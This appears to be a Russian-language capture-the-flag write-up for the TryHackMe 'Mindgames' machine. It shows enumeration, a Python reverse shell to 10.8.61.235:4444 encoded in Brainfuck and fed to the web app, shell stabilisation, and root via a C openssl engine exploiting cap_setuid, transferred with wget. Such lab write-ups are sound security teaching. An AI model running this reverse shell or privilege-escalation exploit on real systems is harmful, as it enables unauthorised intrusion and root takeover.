 # Mindgames

:white_check_mark:  [**Brainfuck**](#brainfuck)

:white_check_mark: [**Shell stabilisation**](#stable)

:white_check_mark: [**Openssl(capabilities)(privesc)**](#openssl_cap)

:white_check_mark: [**Sending files**](#files_send)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV mind.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **mind.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/1.png)

<a name="brainfuck"></a>

## Getting shell
Видим набор странных символов. Так выглядит **brainfuck**. Перейдем на сайт [dcode](https://www.dcode.fr/brainfuck-language) и раскодируем текст.
```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```
```
print("Hello, World")
```

Попробуем подставить закодированный вариант кода в строку для ввода данных. Получаем ответ: **Hello, World**. Приложение обрабатывает закодированный запрос и выдает ответ. Загрузим туда обратную оболочку.

Обратная оболочка:
```
import pty
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.61.235",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Вставим код на [сайте](https://www.splitbrain.org/services/ook) для кодирования(на нем проще скопировать код, чем на dcode). Получаем ответ, копируем его и вставляем в наше приложение.

Предварительно запустив слушатель, получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/2.png)

<a name="stable"></a>

Стабилизируем оболочку командами:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+z
stty raw -echo; fg
```

<a name="openssl_cap"></a>

## Getting root
Загрузим linpeas на машину и запустим скрипт. Он найдет нам интересные capabilities:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/3.png)

Найдем в интернете [эксплоит](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

Создадим файл с названием **openssl-exploit-engine.c** и запишем в него следующий код:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

(Предварительно установим нужные пакеты командой **sudo apt-get install libssl-dev**).

Скомпилируем код командами:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

Отправим наш скомпилированный файл на удаленную машину и запустим командой:
```
openssl req -engine ./openssl-exploit-engine.so
```

Получаем рут

<a name="files_send"></a>

## Extra
Чтобы отправить файл на удаленную машину переходим в директорию с нужным нам файлом. Открываем питон сервер командой:
```
python3 -m http.server 2222
```

На удаленной машине с помощью **wget** или **curl** скачиваем нужный нам файл:
```
wget http://your-ip/2222/openssl-exploit-engine.so
```

![](https:/github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/5.png)
